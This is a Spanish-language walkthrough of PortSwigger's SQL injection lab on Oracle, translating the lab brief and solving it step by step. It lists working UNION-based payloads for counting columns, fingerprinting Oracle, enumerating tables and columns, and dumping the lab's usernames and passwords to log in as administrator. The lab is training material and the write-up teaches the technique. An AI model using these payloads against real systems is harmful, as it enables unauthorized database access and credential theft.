



# Write-up - PortSwigger SQLi Lab 9

Voy a hacer un laboratorio de Port Swigger. El lab 9 de SQLi (En esta url: https://portswigger.net/web-security/sql-injection/examining-the-database/lab-listing-database-contents-oracle)

## Descripción: Tradúcela al Español

**Lab: SQL injection attack, listing the database contents on Oracle**

**Traducción al Español:**

**Laboratorio: ataque de inyección SQL, listando el contenido de la base de datos en Oracle.**

This lab contains a SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response so you can use a UNION attack to retrieve data from other tables.

**Traducción:**
Este laboratorio contiene una vulnerabilidad de inyección SQL en el filtro de categoría de productos. Los resultados de la consulta se devuelven en la respuesta de la aplicación, por lo que puedes usar un ataque `UNION` para recuperar datos de otras tablas.

The application has a login function, and the database contains a table that holds usernames and passwords. You need to determine the name of this table and the columns it contains, then retrieve the contents of the table to obtain the username and password of all users.

**Traducción:**
La aplicación tiene una función de login, y la base de datos contiene una tabla que almacena nombres de usuario y contraseñas. Necesitas determinar el nombre de esta tabla y las columnas que contiene, y después recuperar el contenido de la tabla para obtener el nombre de usuario y la contraseña de todos los usuarios.

To solve the lab, log in as the administrator user.

**Traducción:**
Para resolver el laboratorio, inicia sesión como el usuario `administrator`.

---

## Por tanto nuestro Objetivo Principal es:

- Saber el número de columnas de la petición
- Tipado de los datos de las columnas
- Tipo y versión de la BBDD
- Lista de las tablas de la BBDD
- Lista de las columnas de la tabla objetivo
- Salida de los usuarios y contraseñas

---

## Apertura del laboratorio

Le damos a abrir lab y nos abre una página con la url:

`https://0ab600ea0474e765800d08b000a1001d.web-security-academy.net/`

La página web tiene el aspecto de la imagen 1.



**Referencia a la imagen 1:** Vista inicial del laboratorio. Se observa la tienda vulnerable, el filtro por categorías y el entorno desde el cual vamos a explotar el parámetro `category` mediante una inyección SQL basada en `UNION`.

---

## Preparación del entorno

Una vez dentro, abrimos burpsuitepro y en el navegador activamos el FoxyProxy para que en el HTTP History vayan apareciendo las distintas Requests mientras navegamos por la página.

Como ya nos da pistas la descripción del laboratorio, vamos a hacer el mismo proceso de SQL injection UNION.

Para ello, nos vamos a la categoria de Tech gifts =>

`https://0ab600ea0474e765800d08b000a1001d.web-security-academy.net/filter?category=Tech+gifts`

Y desde burpsuite enviamos dicha petición al Repeater:

```http
GET /filter?category=Tech+gifts HTTP/2

Host: 0ab600ea0474e765800d08b000a1001d.web-security-academy.net

Cookie: session=IFE4sR2qhGxBFkXiyEHyMl6K7ZZnQ0WE

User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:140.0) Gecko/20100101 Firefox/140.0

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8

Accept-Language: en-US,en;q=0.5

Accept-Encoding: gzip, deflate, br

Referer: https://0ab600ea0474e765800d08b000a1001d.web-security-academy.net/

Upgrade-Insecure-Requests: 1

Sec-Fetch-Dest: document

Sec-Fetch-Mode: navigate

Sec-Fetch-Site: same-origin

Sec-Fetch-User: ?1

Priority: u=0, i

Te: trailers
```

--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

A partir de aquí vamos a seguir una metodología completa de enumeración para Oracle, hasta llegar a la tabla real de credenciales y usarla para autenticarnos como `administrator`.

---

## 1) Número de columnas

Primero necesitamos averiguar cuántas columnas devuelve la consulta original. Esto es imprescindible, porque una inyección `UNION` solo funcionará si la consulta inyectada devuelve exactamente el mismo número de columnas que la consulta original.

Probamos con `ORDER BY` incrementando el índice:

```http
' ORDER BY 1--
HTTP/2 200 OK

' ORDER BY 2--
HTTP/2 200 OK

' ORDER BY 3--
HTTP/2 500 Internal Server Error
```

### Explicación detallada

- Con `' ORDER BY 1--` la consulta sigue siendo válida, así que existe al menos una columna.
- Con `' ORDER BY 2--` también obtenemos `200 OK`, así que existe una segunda columna.
- Con `' ORDER BY 3--` aparece un `500 Internal Server Error`, lo que significa que la consulta original no tiene una tercera columna disponible.

### Conclusión del paso 1

Por tanto sabemos que **la consulta original tiene 2 columnas**.

Esto condiciona todos los payloads siguientes, porque cada `UNION SELECT` tendrá que devolver exactamente **2 columnas**.

---

## 2) Tipado de los datos de las columnas

Ahora que ya sabemos que hay 2 columnas, el siguiente paso es comprobar si esas columnas aceptan texto. Esto es importante porque vamos a necesitar mostrar nombres de tablas, nombres de columnas, nombres de usuario y contraseñas, y todo eso son datos de tipo texto.

Probamos:

```http
' UNION SELECT 'a', 'a' FROM Dual--
HTTP/2 200 OK
```

### Explicación detallada

Aquí estamos forzando una fila artificial con dos cadenas de texto:

- Primera columna: `'a'`
- Segunda columna: `'a'`

Como la aplicación devuelve `HTTP/2 200 OK`, ya sabemos que **ambas columnas aceptan texto**.

### Aclaración importante sobre Oracle

En Oracle no puedes hacer un `SELECT` “al aire” sin un `FROM`. Por eso aquí usamos:

```sql
FROM Dual
```

`DUAL` es una tabla especial de Oracle de una sola fila y una sola columna, que se usa para seleccionar constantes, funciones o valores fijos cuando no quieres leer datos de una tabla real.

### Conclusión del paso 2

Por tanto sabemos que:

- hay 2 columnas
- ambas aceptan texto
- y, además, estamos en un entorno compatible con la sintaxis típica de Oracle (`FROM Dual`)

---

## 3) Tipo y versión de la BBDD

Ahora queremos confirmar el motor de base de datos y extraer su información. En Oracle, una de las formas típicas de obtener la versión es consultar la vista `v$version`.

Usamos:

```http
' UNION SELECT banner, NULL FROM v$version--
HTTP/2 200 OK
```

### Explicación detallada

#### `banner`
Es la columna que contiene las cadenas de versión descriptivas de Oracle.

#### `NULL`
Se usa como relleno para respetar las 2 columnas de la consulta original. Como ya sabemos que el `UNION` necesita 2 columnas, ponemos el dato útil en la primera y un `NULL` en la segunda.

#### `FROM v$version`
`v$version` es una vista especial de Oracle que contiene información del producto, versión del motor, componentes instalados, etc.

### Conclusión del paso 3

Por tanto es **Oracle**.

Este paso es importante porque nos confirma que no debemos seguir la estrategia de PostgreSQL o MySQL con `information_schema.tables` o `version()` como primer enfoque principal, sino usar las vistas propias de Oracle como `all_tables` y `all_tab_columns`.

---

## 4) Lista de las tablas de la BBDD

Una vez sabemos que estamos en Oracle, pasamos a enumerar tablas. Para ello usamos la vista `all_tables`, que contiene información sobre las tablas accesibles al usuario actual.

Payload usado:

```http
' UNION SELECT TABLE_NAME, NULL FROM all_tables--
HTTP/2 200 OK
```

### Explicación detallada de la consulta

#### `'`
Cierra la cadena original del parámetro vulnerable.

#### `UNION SELECT`
Une los resultados de nuestra consulta maliciosa con la consulta legítima de la aplicación.

#### `TABLE_NAME`
Es la columna que contiene el nombre de cada tabla.

#### `NULL`
Actúa como relleno para mantener el mismo número de columnas.

#### `FROM all_tables`
`all_tables` es una vista del diccionario de datos de Oracle que expone las tablas visibles para el usuario.

### Resultado obtenido

Nos devuelve:

```text
APP_ROLE_MEMBERSHIP
APP_USERS_AND_ROLES
AUDIT_ACTIONS
DR$NUMBER_SEQUENCE
DR$OBJECT_ATTRIBUTE
DR$POLICY_TAB
DR$THS
DR$THS_PHRASE
DUAL
Eye Projectors
HELP 
HS$_PARALLEL_METADATA
HS_BULKLOAD_VIEW_OBJ
HS_PARTITION_COL_NAME
HS_PARTITION_COL_TYPE
IMPDP_STATS
KU$NOEXP_TAB
KU$_DATAPUMP_MASTER_10_1
KU$_DATAPUMP_MASTER_11_1
KU$_DATAPUMP_MASTER_11_1_0_7
KU$_DATAPUMP_MASTER_11_2
KU$_LIST_FILTER_TEMP
KU$_LIST_FILTER_TEMP_2
NTV2_XML_DATA
ODCI_PMO_ROWIDS$
ODCI_SECOBJ$
ODCI_WARNINGS$
OGIS_GEOMETRY_COLUMNS
OGIS_SPATIAL_REFERENCE_SYSTEMS
OL$
OL$HINTS
OL$NODES
PLAN_TABLE$
PRODUCTS
PSTUBTBL
SDO_COORD_AXES
SDO_COORD_AXIS_NAMES
SDO_COORD_OPS
SDO_COORD_OP_METHODS
SDO_COORD_OP_PARAMS
SDO_COORD_OP_PARAM_USE
SDO_COORD_OP_PARAM_VALS
SDO_COORD_OP_PATHS
SDO_COORD_REF_SYS
SDO_COORD_SYS
SDO_CRS_GEOGRAPHIC_PLUS_HEIGHT
SDO_CS_CONTEXT_INFORMATION
SDO_CS_SRS
SDO_DATUMS
SDO_DATUMS_OLD_SNAPSHOT
SDO_ELLIPSOIDS
SDO_ELLIPSOIDS_OLD_SNAPSHOT
SDO_PREFERRED_OPS_SYSTEM
SDO_PREFERRED_OPS_USER
SDO_PRIME_MERIDIANS
SDO_PROJECTIONS_OLD_SNAPSHOT
SDO_ST_TOLERANCE
SDO_TOPO_DATA$
SDO_TOPO_RELATION_DATA
SDO_TOPO_TRANSACT_DATA
SDO_TXN_IDX_DELETES
SDO_TXN_IDX_EXP_UPD_RGN
SDO_TXN_IDX_INSERTS
SDO_UNITS_OF_MEASURE
SDO_XML_SCHEMAS
SRSNAMESPACE_TABLE
STMT_AUDIT_OPTION_MAP
SYSTEM_PRIVILEGE_MAP
TABLE_PRIVILEGE_MAP
USERS_AZUZNK
WRI$_ADV_ASA_RECO_DATA
WRR$_REPLAY_CALL_FILTER
WWV_FLOW_DUAL100
WWV_FLOW_LOV_TEMP
WWV_FLOW_TEMP_TABLE
XDB$XIDX_IMP_T
```

--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

### Identificación de la tabla relevante

Esta nos parece especialmente relevante para el objetivo:

```text
USERS_AZUZNK
```

### ¿Por qué esta tabla es sospechosa?

Porque:

- empieza por `USERS`, lo cual encaja con el objetivo del laboratorio
- PortSwigger suele añadir sufijos aleatorios a los nombres reales
- el laboratorio ya nos ha dicho explícitamente que existe una tabla con usuarios y contraseñas

### Conclusión del paso 4

La tabla objetivo más probable es:

```text
USERS_AZUZNK
```

---

## 5) Lista de las columnas de la tabla objetivo

Ahora necesitamos saber cómo se llaman exactamente las columnas de esa tabla. No podemos asumir que se llaman `username` y `password`, porque PortSwigger suele randomizarlas.

En Oracle, esto se enumera con `all_tab_columns`.

Payload usado:

```http
' UNION SELECT column_name, NULL FROM all_tab_columns WHERE table_name = 'USERS_AZUZNK'--
HTTP/2 200 OK
```

Nos devuelve además:

```text
PASSWORD_HLXICU
USERNAME_IKMAKR
```

Si tú quieres saber cómo se llaman los campos de la tabla de usuarios para poder robarlos después, tienes que preguntar por el `column_name`. Si no lo haces, no sabrás si la contraseña se guarda en una columna llamada `pass`, `password` o `secret_key`.

--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

### Explicación detallada

#### `all_tab_columns`
Es una vista del diccionario de Oracle que contiene información sobre las columnas de las tablas.

#### `column_name`
Es el nombre de cada columna.

#### `WHERE table_name = 'USERS_AZUZNK'`
Filtra solo las columnas pertenecientes a la tabla sospechosa.

### Conclusión del paso 5

Ya sabemos que la tabla `USERS_AZUZNK` contiene las columnas:

- `PASSWORD_HLXICU`
- `USERNAME_IKMAKR`

Con esto ya tenemos todo lo necesario para realizar la extracción final.

---

## 6) Salida de los usuarios y contraseñas

Ahora que ya conocemos:

- el nombre de la tabla
- el nombre de la columna de usuario
- el nombre de la columna de contraseña

hacemos la extracción final:

```http
' UNION SELECT USERNAME_IKMAKR, PASSWORD_HLXICU FROM USERS_AZUZNK--
HTTP/2 200 OK
```

Y obtenemos:

```text
administrator
	ei4ervnd1colaaweqva7
carlos
	1wsf61loa06yviod6e86
wiener
	lzns17i76y40rwgijd6e
```

### Explicación detallada

Aquí ya no estamos enumerando metadatos, sino exfiltrando directamente las credenciales reales de la tabla de usuarios.

- `USERNAME_IKMAKR` se proyecta en la primera columna del resultado
- `PASSWORD_HLXICU` se proyecta en la segunda
- `FROM USERS_AZUZNK` indica que los datos salen de la tabla de credenciales

### Conclusión del paso 6

Las credenciales del usuario `administrator` son:

- **Usuario:** `administrator`
- **Contraseña:** `ei4ervnd1colaaweqva7`

---

## Ahora nos logueamos como administrator

Le damos a **My Account** y nos logueamos con las credenciales: (imagen 2)



**Referencia a la imagen 2:** Formulario de login rellenado con el usuario `administrator` y la contraseña extraída mediante SQL injection desde la tabla Oracle descubierta durante la enumeración.

Le damos a login y somos admin (imagen 3)



**Referencia a la imagen 3:** Panel del usuario `administrator` con el banner superior indicando que el laboratorio ha sido resuelto correctamente.

---

## Resumen técnico completo del proceso

En este laboratorio hemos seguido una metodología completa de enumeración SQLi adaptada a Oracle:

1. **Determinar el número de columnas**
   - Con `ORDER BY`
   - Descubrimos que hay 2 columnas

2. **Determinar el tipo de datos**
   - Con `UNION SELECT 'a', 'a' FROM Dual--`
   - Descubrimos que ambas aceptan texto

3. **Confirmar el motor**
   - Con `v$version`
   - Confirmamos que es Oracle

4. **Enumerar tablas**
   - Con `all_tables`
   - Descubrimos `USERS_AZUZNK`

5. **Enumerar columnas**
   - Con `all_tab_columns`
   - Descubrimos `USERNAME_IKMAKR` y `PASSWORD_HLXICU`

6. **Extraer credenciales**
   - Con `UNION SELECT USERNAME_IKMAKR, PASSWORD_HLXICU FROM USERS_AZUZNK--`

7. **Autenticarnos como administrator**
   - Usando las credenciales exfiltradas

---

## Payloads clave utilizados

### Número de columnas
```http
' ORDER BY 1--
' ORDER BY 2--
' ORDER BY 3--
```

### Tipado de columnas
```http
' UNION SELECT 'a', 'a' FROM Dual--
```

### Confirmación de Oracle
```http
' UNION SELECT banner, NULL FROM v$version--
```

### Enumeración de tablas
```http
' UNION SELECT TABLE_NAME, NULL FROM all_tables--
```

### Enumeración de columnas
```http
' UNION SELECT column_name, NULL FROM all_tab_columns WHERE table_name = 'USERS_AZUZNK'--
```

### Extracción final
```http
' UNION SELECT USERNAME_IKMAKR, PASSWORD_HLXICU FROM USERS_AZUZNK--
```

---

## Conclusión

Este laboratorio demuestra una enumeración completa del esquema en Oracle a través de SQL injection basada en `UNION`.

No solo identificamos:

- el número de columnas
- el tipado compatible
- el motor de base de datos

sino que además enumeramos:

- tablas accesibles
- columnas internas
- y finalmente exfiltramos credenciales reales

Todo ello culmina con el objetivo final del laboratorio: iniciar sesión como `administrator`.

**Laboratorio resuelto.**
